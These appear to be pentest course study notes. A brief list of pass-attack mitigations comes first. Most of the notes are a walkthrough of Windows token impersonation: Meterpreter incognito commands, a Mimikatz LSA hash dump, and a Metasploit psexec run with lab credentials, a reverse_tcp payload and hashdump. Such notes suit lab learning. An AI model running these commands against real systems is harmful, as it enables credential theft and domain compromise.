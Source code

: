 **Pass Attack Mitigations**
- hard to completely prevent, but can make more difficult on attacker
	- limit account re-use
		- avoid re-using local admin password
		- disable guest and admin accounts
		- limit who is a local admin (least priv)
	- utilize strong passwords
		- longer the better >14 characters
		- avoid using common words
		- i like long sentences
	- privilege access management (PAM)
		- check out/in sensitive accounts when neede
		- automatically rotate passwords on check out and check in
		- limits pass attacks as hash/password is strong and constantly rotated

# Token Impersonation
What are tokens?
- temporary keys that allow you access to a system/network without having to provide credentials each time you access a file. Think cookies for computers.
Two types:
- delegate - created for logging into a machine or using remote desktop
- impersonate - "non-interactive" such as attacking a network drive or a domain logon script
1. pop a shell and load incognito
```bash 
#meterpreter
getuid
load incognito
list_tokens -u
```
2. impersonate our domain admin
```bash
#meterpreter
impersonate_token <domain admin token>
shell
whoami
```
3. attempt to dump hashes domain admin
```bash
Invoke-Mimikatz -Command '"privilege::debug" "LSADump:LSA /path" exit' -Computer HYDRA.marvel.local
```
goal is to navigate to a machine with a domain admin token you can impersonate and do the above

#### Token impersonation with Incognito
```bash
#get meterpreter session
msfconsole
use exploit/windows/smb/psexec
options
set rhosts <target IP>
set smbdomain mavel.local
set smbpass Password1
set smbuser fcastle
show targets
set target 2
options #check
set payload windows/x64/meterpreter/reverse_tcp
set lhost eth0
#run 
run

#in meterpreter windows session
hashdump
getuid
sysinfo
```
